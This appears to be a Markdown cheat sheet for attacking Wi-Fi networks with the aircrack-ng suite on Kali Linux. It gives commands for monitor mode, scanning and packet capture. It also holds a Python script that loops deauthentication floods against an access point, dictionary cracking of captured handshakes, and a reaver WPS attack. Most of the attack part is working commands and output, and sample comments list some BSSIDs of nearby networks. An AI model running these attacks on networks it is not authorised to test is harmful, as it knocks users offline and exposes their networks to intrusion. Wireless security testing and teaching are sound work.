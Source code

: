 ### Show connected network information(Windows)

``` powershell
netsh wlan show network mode=bssid
```


### Available channel list

``` bash
┌──(kali㉿kali)-[~]
└─$ iwlist channel
lo        no frequency information.

eth0      no frequency information.

eth1      no frequency information.

wlan0     32 channels in total; available frequencies :
          Channel 01 : 2.412 GHz
          Channel 02 : 2.417 GHz
          Channel 03 : 2.422 GHz
          Channel 04 : 2.427 GHz
          Channel 05 : 2.432 GHz
          Channel 06 : 2.437 GHz
          Channel 07 : 2.442 GHz
          Channel 08 : 2.447 GHz
          Channel 09 : 2.452 GHz
          Channel 10 : 2.457 GHz
          Channel 11 : 2.462 GHz
          Channel 12 : 2.467 GHz
          Channel 13 : 2.472 GHz
          Channel 14 : 2.484 GHz
          Channel 36 : 5.18 GHz
          Channel 40 : 5.2 GHz
          Channel 44 : 5.22 GHz
          Channel 48 : 5.24 GHz
          Channel 52 : 5.26 GHz
          Channel 56 : 5.28 GHz
          Channel 60 : 5.3 GHz
          Channel 64 : 5.32 GHz
          Channel 100 : 5.5 GHz
          Channel 104 : 5.52 GHz
          Channel 108 : 5.54 GHz
          Channel 112 : 5.56 GHz
          Channel 116 : 5.58 GHz
          Channel 120 : 5.6 GHz
          Channel 124 : 5.62 GHz
          Channel 128 : 5.64 GHz
          Channel 132 : 5.66 GHz
          Channel 136 : 5.68 GHz
          Current Frequency:2.447 GHz (Channel 8)
```


### Enable monitor mode
``` bash
sudo ifconfig wlan0 down
# sudo airmon-ng check kill
sudo airmon-ng start wlan0
```


### Set Channel

``` bash
sudo iw dev wlan0mon set channel 8
```


### Airodump-ng scanning
``` bash
sudo airodump-ng wlan0mon

# 5GHz capture
airodump-ng --band a wlan0mon

# ex)
# 70:5D:CC:65:45:C2 - 305
# 88:36:6C:90:F4:DE - Iptime
# 70:5D:CC:6C:F2:80 - O
# 70:5D:CC:8A:A2:7E - iptime
# 80:4E:81:0A:75:83 - my phone
```


### Save traffic packets
``` bash
sudo airodump-ng --bssid 00:00:00:00:00:00 -w filename wlan0mon
```


### Execute aireplay-ng
``` bash
sudo aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon

# ex)
# sudo aireplay-ng --deauth 100 -a 70:5D:CC:65:45:C2 wlan0mon
```

### deauth.py
```python
import os, time

while True:
	os.system("aireplay-ng --deauth 10 -a 00:00:00:00:00:00 wlan0")
	time.sleep(1)

```

```bash
sudo python3 deauth.py
```




### Aireplay-ng error : (wlan0mon is on channel 2, but the AP uses channel 5)
``` bash
sudo airmon-ng start wlan0mon 5
sudo iwconfig wlan0mon channel 5
```



### Cracking password
``` bash
sudo aircrack-ng filename.cap -w dict.lst
```

### WPS Attack

``` bash
airmon-ng start [device]
airodump-ng [device] --wps
reaver -i [device] -b [BSSID] -vv
```


---

#### Reference

- https://deliberate-practice.tistory.com/48

